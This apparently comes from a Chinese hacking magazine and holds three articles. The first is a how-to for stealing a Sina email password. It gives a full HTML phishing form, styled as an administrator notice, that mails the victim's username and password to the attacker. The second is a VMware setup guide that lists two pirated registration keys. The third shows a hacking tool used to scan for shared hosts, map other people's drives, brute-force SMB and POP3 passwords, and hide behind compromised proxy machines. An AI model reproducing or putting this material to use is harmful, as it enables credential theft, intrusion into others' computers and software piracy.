

# 社会工程学：破解E-mail

code:9527



想要获取别人的电子邮件账号有很多种方法，比如用穷举法暴力破解、木马截获、网络嗅探等等。但针对某一账号，这几种方法在实现上都有一定的难度，因此有时候即便是一名真正的黑客也不得不利用一些简洁有效的办法以求达到最终的目的。好了，闲话少说，开始我们今天的任务。

### 任务简介：

利用目标对其邮件提供者的信任，冒充管理员骗取邮箱账号及密码，通过人为欺骗达到破解的目的，这正是所谓“社会工程学”危害之所在。

首先我们需要申请一个匿名信箱用作接收邮箱密码，这里值得提起注意的是你所申请信箱的提供者应该和你所要破解的邮箱的相同。原因很简单：Sina的管理员是不会管Sohu用户的。如图一所示，在Outlook中设置好发信的邮件地址。在填写发信人姓名时（如图二）要尽量伪装好自己，比如取个Webmaster（Web站点管理员）之类的名字，另外为了增加可信度，可将用户信息中的回复地址改成一个不会被怀疑并不存在的地址，如：mail@sina.com。

这些做好之后，在Outlook中选择创建新的邮件，点击“源文件”（如图三所示）将下面的代码拷进去并覆盖掉原来的信息，这里以sina为例。





```html
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<title>验证密码</title>
</head>
<body text="#000080" bgcolor="#c0c0c0">
<form name="GETPASS" method="post" enctype="text/plain" action="mailto:xhacker@sina.com?Subject=密码">
<p><font size="5"><b><font color="#ff0000">浪浪邮箱服务中心</font></b></font><br><br><font size="1">亲爱的新浪用户，您好！</font><br><font size="1">近期我们对邮件服务进行调整，取消一些不使用的账号。为了我们能更好地为您服务，请重新输入用户名及密码，以便确认您账号的有效性。</font><br><br><font size="1">新浪账号：</font>&nbsp;&nbsp;<input name="username" size="20"></p>
<p><font size="1">密码：</font>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<input name="password" type="password"></p>
<p><font color="#000000" size="2">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</font><input name="OK" type="submit" value="确定"> <font color="#000000" size="2">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</font><input type="reset" value="重填"></p>
</form>
</body>
</html>
```

下面点击预览（如图四所示）。



最后再填一个可信的主题和你要破解的邮箱，一个强力的“破解器”就新鲜出炉了，剩下的事就是祈祷和等待了。

# VMware——轻松实现操作系统之间切换

Douglas

## 一、Windows篇

VMware简介：不需要重启开机就能在同一台电脑使用好几个OS。VMware主要的功能有：
- 1. 不需要分区或重开机就能在同一台PC上使用两种以上的操作系统。
- 2. 完全隔离并且保护不同OS的操作环境以及所有安装在OS上面的应用软件和资料。
- 3. 不同的OS之间还能互动操作，包括网络、周边、文件分享以及复制粘贴功能。
- 4. 有复原（Undo）功能。
- 5. 能够设定并且随时修改操作系统的操作环境，如：内存、磁盘空间、周边设备等等。

VMware for WinNT/2000最低的系统需求是：PII 266MHz、96MB RAM、WinNT 4.0 SP3以上。

VMware真是一款超酷工具啊！它的用处就是让两个不同的操作系统同时跑起来。其实呢，Windows和Linux比起来，办公娱乐方面嘛Windows强，但是，爱Hack还得属Linux强。在这一点上，VMware帮我实现了这一点。

首先先让我们来看看怎样使用这一款软件吧！这里，我们以VMware 3.1.1 build-1790（最新版）在Windows XP系统下为例。



VMware操作界面

安装VMware for Windows版过程比较简单，与一般的软件安装过程一样。安装后点击启动它，点击“File”，在弹出的下拉菜单中选择“New Virtual Machine”新建一个虚拟机器，会弹出一个对话框“New Virtual Machine Wizard”，选择“Custom”，点击“Next”，它会让你选择“Guest operating system”，这里，我们选择：“Linux”，点击“Next”，然后它让你给这个虚拟机器命名，默认为：“Linux1”（一般不用改动），还让你选择这个虚拟机器的配置文件保存地址，默认为：“C:\Documents and Settings\目录\My Documents\My Virtual Machines\Linux”。这一步可以直接点击“Next”。然后会让你配置虚拟机器的内存大小，这是根据你的物理内存来定的，默认为你的物理内存的一半。

可以直接点击“Next”，下一步才是最关键的，是设置网络共享，这里推荐选择“Use host-only networking”。点击“Next”，进入设置磁盘分区。如果你的机器上已经安装了Linux系统，则选“Use a physical disk”。点击“Next”，会弹出一个警告对话框，点击“OK”，然后选择“硬盘”。对话框里，如果你没有安装多个硬盘，这一步可以直接点击“Next”，然后设置“分区读写权限”，把所有分区都设为“Write”权限，除了“MBR”和“LBA”。点击“Next”，选择保存这个磁盘分区访问权限的配置文件，直接点击“Finish”就OK了。

如果你的机器上还没有安装任何Linux系统，则在Disk这一项选择“Create a new virtual disk”。点击“Next”，选择虚拟磁盘的大小，默认约为4GB，我推荐设为2GB，因为Linux完全安装只需2GB，而且，最好独立出一个分区给VMware建立虚拟磁盘。进入最后一步，选择保存这个磁盘分区访问权限的配置文件，也可直接点击“Finish”完成。最后，在左边的列表中就会出现一个Linux栏目。我们点击“Power On”来启动它就行了。但是，如果你还没安装过Linux，就得先放过Linux安装光盘，再点“Power On”，启动后会进入Linux安装程序，就跟普通安装Linux一样。在这里，Linux的安装就不属于本文文章的范畴了！

启动Linux以后，会发现无法进入Linux图形界面，不要急，原来VMware还带有一个软件包，叫做“vmware-linux-tools”，这个工具在VMware的安装目录下的Program文件夹Linux.iso文件内。用WINRAR把这个文件解压缩拷贝到Linux分区中，然后在Linux环境下以root身份安装该工具，其安装命令为“./install.pl”。安装好后，就可以正常进入Linux图形界面。

现在，你的Linux也可以共享Windows的网络连接上Internet了。

还有就是这款软件是需要注册才能使用的！这个版本的注册码为：

60408-8486H-13292-3HN3M

## 二、Linux篇

For Linux/Unix版的使用方法：先下载后再解压安装，这里的安装可不同于Windows系统下的安装过程，不过也挺简单的！只要在其目录下输入：./vmware-install.pl，然后就会弹出一系列的提示问题，比如问你安装目录等等。这里推荐大家直接回车或者输入YES就可以了，因为它的默认值都设置得很合理，没什么好改的。安装完成后，进入 /etc/bin 目录，输入“vmware”运行该程序，后面配置的过程就和Windows下一模一样了。只是要注意，这里的虚拟系统是Windows系列。在Linux下设置比较简单，不必安装什么外部工具。

这个版本的注册码为：

6818X-84WD1-01KDK-3JN9X

祝大家使用愉快！

# 侵入黑客

网络刺客 II 相信大家早有耳闻了吧！这个黑软真可以称得上是黑软中的全职杀手了，功能非常强大，而且还集合了众多工具。

现在我们就用网络刺客来完成一系列的网络侦测行动。首先打开 Down 国家的刺客，会发现有很多菜单，里面的好东西更是不少。

工具很多，包含了像共享主机扫描、FTP/POP3 猜解机、PORT 扫描、Finger 等等功能。非常丰富哦！

好！接下来开始我们的刺客之旅吧。

打开刺客，选择“主机资源”→“搜索共享主机”，填一个 IP 网段，然后就可以离开电脑，休息一下，舒缓一下紧张情绪，回来就会发现“刺客”已经帮你嗅到了不少目标（如图1）。



图 1

随便点击开一台主机，会发现有不少共享资源哟，用鼠标右键选中其中一个共享硬盘，选择“映射成网络硬盘”，把它映射到你的机器上（如图2）。



图 2

不过，如果对方的共享有密码怎么办呢？不要怕，网络刺客中提供了猜解机。选择“猜解机”，会弹出如图3所示的对话框。



图 3

### 天行软件 → 网络刺客 II

可以在“网络协议”处选择 SMB 来进行共享猜解；在综合设置处可以设置代理服务器，如果你通过代理服务器来进行猜解和访问，这样会更安全；在字典设置处可以选作用“手工用户名词典”和“手工密码字典”来自行编写字典。



图 4

另外还有很多选择，在此就不一一介绍了，大家可以根据自己的需要进行配置。

映射成功后，会在“我的电脑”里多出一个盘符（如图5），同时刺客中也会给出映射成功的提示。这时候你就可以像使用自己的硬盘一样来对他的硬盘进行操作了。



图 5

除了搜索共享主机外，刺客 II 还可以破解本地共享密码，我们可以通过选择“共享资源”→“解本地共享密码”，来查看本地机上的共享密码。

另外，还可以通过选择“共享资源”→“远程 NT 服务器用户清单”来获得远程 NT 主机的用户名，这样就可以进一步进行破解。不过这一功能并不是很强大，不及其它的一些专门破解远程 NT 主机密码的工具，所以就不多介绍了。



图 6

接下来，我们利用 POP3 猜解机来破解邮箱账号。选择“猜解机”→“POP3 猜解机”，如果你有被你做成代理的肉鸡，还可以在“综合设置”中设置“代理服务器”，这样会更安全。然后点“字典设置”按钮，在出现的选项卡里选择用户名字典文件和密码字典文件。

也可以自己编写，这里我们就用我的上网账号为例来手工编写字典并进行破解。如图6和图7所示。进行完设置后点确定回到猜解机的界面（也可以点保存进行保存），然后点击开始猜解。接下来就是慢慢地等待结果了，过一会儿，如果顺利的话会出现如图8所示的成功信息。

